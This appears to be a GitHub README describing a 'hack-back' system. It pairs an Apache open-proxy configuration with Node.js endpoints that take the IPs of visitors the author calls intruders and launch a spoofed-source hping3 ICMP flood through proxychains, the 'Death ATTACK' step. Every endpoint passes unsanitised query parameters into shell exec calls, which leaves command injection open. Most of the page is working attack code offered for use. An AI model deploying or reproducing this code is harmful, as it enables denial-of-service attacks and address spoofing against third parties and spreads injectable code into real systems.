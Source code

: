 <h1>ATTACK TO INTRUDERS 😹</h1>
<img src="https://github.com/dewebdes/Iranian-Cyber-Army/blob/master/ghost/fishing/bg-img-01.jpg" />
<hr>
<ul>
  <li><h2>Create Feed For Intruders</h2>
    <pre>
    <VirtualHost *:443>
ServerName admin.yourdomain.com


#CustomLog <LOG-PATH> combined
#ErrorLog <ERROR-LOG-PATH>
ProxyRequests On


# Example SSL configuration
SSLEngine on
SSLProtocol all -SSLv2
SSLCipherSuite HIGH:MEDIUM:!aNULL:!MD5
SSLCertificateKeyFile /root/SSL/star_yourdomain_com.key
SSLCertificateFile /root/SSL/STAR_yourdomain_com.crt
SSLCertificateChainFile /root/SSL/STAR_yourdomain_com.ca-bundle
ProxyPreserveHost On
ProxyPass / http://localhost:yourportnumber/
ProxyPassReverse // http://localhost:yourportnumber/
<IfModule mod_headers.c>
Header set Access-Control-Allow-Origin "*"
</IfModule>
</VirtualHost>
<VirtualHost *:80>
ServerAdmin info@yourdomain.com
ServerName admin.yourdomain.com

ProxyRequests On
ProxyPreserveHost On
<IfModule mod_headers.c>
Header set Access-Control-Allow-Origin "*"
</IfModule>

<Proxy *>
Order deny,allow
Allow from all
</Proxy>

<Location />
ProxyPass http://localhost:yourportnumber/
ProxyPassReverse http://localhost:yourportnumber/
</Location>

</VirtualHost>
    </pre>
  </li>
  <li>
  <h2>Send Intruder Connections to ATTACK Engine</h2>
  <pre>
  app.get('/', function(req, res){
	var ipAddress = req.headers['x-forwarded-for'];
const https = require('https')
	var request = require('request');

	var propertiesObject = { cmd : 'getipinfo',  dip : ipAddress  };

	request({url:'https://ATTACK.yourdomain.com', qs:propertiesObject}, function(err, response, body) {
		if(err) { console.log("**ERROR: "+err); return; }
		  res.send("Net info for " + ipAddress + "<br>" + body);
	});

//  res.send('Hello Admin! - '+ipAddress);
})
  </pre>
</li>
<li>
  <h2>DMitry, Full Detect Connection Network Arc.</h2>
  <pre>
  app.get('/', function(req, res){
	var ipAddress = req.headers['x-forwarded-for'];
	var dip = req.query.dip;
	var cmd = "dmitry -i " + dip;

var child;
	child = exec(cmd,
			function (error, stdout, stderr) {
				var dlog = 'stdout: ' + stdout + "\n";
				dlog += 'stderr: ' + stderr + "\n";
				if (error !== null) {
					dlog += 'exec error: ' + error + "\n";
				}
				res.send(dlog);
			});
})
  </pre>
</li>
<li>
  <h2>Death ATTACK 😈</h2>
  <pre>
  app.get('/', function(req, res){
	var ipAddress = req.headers['x-forwarded-for'];
	console.log("post: "+ipAddress);
	console.log("\n\n" + JSON.stringify(req.headers) + "\n\n" );

	var dip1 = req.query.dip1;
	var dip2 = req.query.dip2;
	var dsec = req.query.dsec;

	console.log("dip1: "+dip1+"\n"+"dip2: "+dip2+"\n"+"dsec: "+dsec+"\n");

if(dsec != "yakhoda"){return;}

console.log("OK1");

if(dip1==undefined){return;}

console.log("OK2");

var cmd = "proxychains hping3 -1 --flood " + dip1 + " -a " + dip2;//"dmitry -i " + dip;

console.log(cmd);
var child;
	child = exec(cmd,
			function (error, stdout, stderr) {
				var dlog = 'stdout: ' + stdout + "\n";
				dlog += 'stderr: ' + stderr + "\n";
				if (error !== null) {
					dlog += 'exec error: ' + error + "\n";
				}
				var resp = dlog;
				console.log("\n\n"+resp+"\n\n");
				res.send(resp);
			});
})
  </pre>
</li>
<li>
  <h2>Check WHEN the TARGET was DONE 😳</h2>
  <pre>
  app.get('/', function(req, res){
	var ipAddress = req.headers['x-forwarded-for'];
	var dm = req.query.dip;
	var cmd = "ping " + dm;

var child;
	child = exec(cmd,
			function (error, stdout, stderr) {
				var dlog = 'stdout: ' + stdout + "\n";
				dlog += 'stderr: ' + stderr + "\n";
				if (error !== null) {
					dlog += 'exec error: ' + error + "\n";
				}
				res.send(dlog);
			});
})
  </pre>
</li>
 </ul>
